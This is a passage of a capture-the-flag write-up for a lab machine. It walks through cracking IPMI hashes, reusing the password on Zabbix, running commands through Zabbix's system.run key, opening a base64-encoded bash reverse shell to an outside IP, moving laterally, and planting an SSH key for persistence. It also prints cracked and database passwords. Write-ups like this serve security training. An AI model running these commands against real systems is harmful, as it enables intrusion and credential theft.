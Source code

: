We need to remove the ip address, the space after it, and the username so that hashcat will interpret this file correctly (even though metasploit said it would export this in hashcat format).

Now, let's crack this with `hashcat`: `hashcat -a 0 -m 7300 ./ipmi_hashes /usr/share/wordlists/rockyou.txt`. This gives us the password: `ilovepumkinpie1` for the user `Administrator`. `hashcat` will autodetect the hash as type `7300 | IPMI2 RAKP HMAC-SHA1 | Network Protocol` sometimes. So, we specify it in the command to have the best odds of it working.

## Foothold

Let's see if we have password reuse on Zabbix with the credentials `Administrator:ilovepumkinpie1`. We are able to sign in!

Searching for "run commands on zabbix host" finds [this article by Zabbix](https://blog.zabbix.com/zabbix-remote-commands/7500/). We can run arbitrary commands by going to Configuration > Hosts on the left, selecting `shibboleth.htb`, clicking on the "Items" tab, and finally clicking "Create item" in the top right.

Put in any name and then for the key use the syntax: `system.run["whoami"]`. We use a bash reverse shell: `echo -n "bash -i >& /dev/tcp/10.10.14.37/26225 0>&1" | base64`. We base64 encode it just to remove any illegal characters: `system.run["echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNy8yNjIyNSAwPiYx' | base64 -d | bash"]`. Paste in this payload, click "Test" at the bottom, then click "Get value and test" to get a reverse shell.

We will get the following error in our terminal `stty: 'standard input': Inappropriate ioctl for device`. We can solve this by spawning a full tty with python by running: `python3 -c 'import pty; pty.spawn("/bin/bash")'` ([relevant article](https://netsec.ws/?p=337)).

It looks like the `ipmi-svc` user's home directory has the `user.txt` flag (see `ls -la /home/ipmi-svc/`) so we are going to have to do some lateral movement.

## Lateral Movement

We can upload LinPEAS with `pwncat` by running `upload linpeas.sh /tmp/linpeas.sh` in the local shell. Then, run LinPEAS with `bash /tmp/linpeas.sh`. After looking around in this output for a while and wasting a lot of time, we tried just switching to the `ipmi-svc` user with `su ipmi-svc` and reusing the same password that we know `ilovepumkinpie1`. This works!

## Privilege Escalation

We can now `cat user.txt` to get the `user.txt` flag.

First, we can get persistance using `pwncat` by running `run implant.authorized_key key=/home/kali/.ssh/id_rsa` in the local shell. I set the permissions of the `.ssh` folder to be what they should be with `cd && chmod 700 .ssh && chmod 600 .ssh/authorized_keys`. However, SSHD is not running, we could attempt to run it as a non-root user by following [this guide](https://www.golinuxcloud.com/run-sshd-as-non-root-user-without-sudo/) if we wanted to.

Now that we have access to this user, let's try running LinPEAS with `bash /tmp/linpeas.sh`.

We see that the file `/etc/zabbix/zabbix_server.conf` has a username and password for a database:

```
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
```
